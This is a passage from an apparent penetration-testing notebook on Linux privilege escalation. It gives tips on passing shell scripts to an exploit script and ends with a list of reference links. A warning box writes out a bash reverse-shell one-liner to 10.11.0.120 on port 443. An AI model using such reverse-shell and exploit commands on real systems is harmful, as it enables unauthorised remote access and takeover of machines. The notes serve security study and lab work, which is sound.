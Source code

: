 Don't use: $ **python /tmp/exploit.py -c "/tmp/shell.pl"** 

Use: $ **python /tmp/exploit.py -c "/usr/bin/perl /tmp/shell.pl"** \(the full path to perl\)
{% endhint %}

{% hint style="danger" %}
 Don't use: **python /tmp/exploit.py -c "/bin/bash -i &gt;& /dev/tcp/10.11.0.120/443"**

-- &gt; It is much more reliable to have any shell commands in an executable file
{% endhint %}

## References

[http://www.rebootuser.com/?p=1758](http://www.rebootuser.com/?p=1758)

[http://netsec.ws/?p=309](http://netsec.ws/?p=309)

[https://www.trustwave.com/Resources/SpiderLabs-Blog/My-5-Top-Ways-to-Escalate-Privileges/](https://www.trustwave.com/Resources/SpiderLabs-Blog/My-5-Top-Ways-to-Escalate-Privileges/)

Watch this video!  
[http://www.irongeek.com/i.php?page=videos/bsidesaugusta2016/its-too-funky-in-here04-linux-privilege-escalation-for-fun-profit-and-all-around-mischief-jake-williams](http://www.irongeek.com/i.php?page=videos/bsidesaugusta2016/its-too-funky-in-here04-linux-privilege-escalation-for-fun-profit-and-all-around-mischief-jake-williams)

[http://www.slideshare.net/nullthreat/fund-linux-priv-esc-wprotections](http://www.slideshare.net/nullthreat/fund-linux-priv-esc-wprotections)

[https://www.rebootuser.com/?page\_id=1721](https://www.rebootuser.com/?page_id=1721)

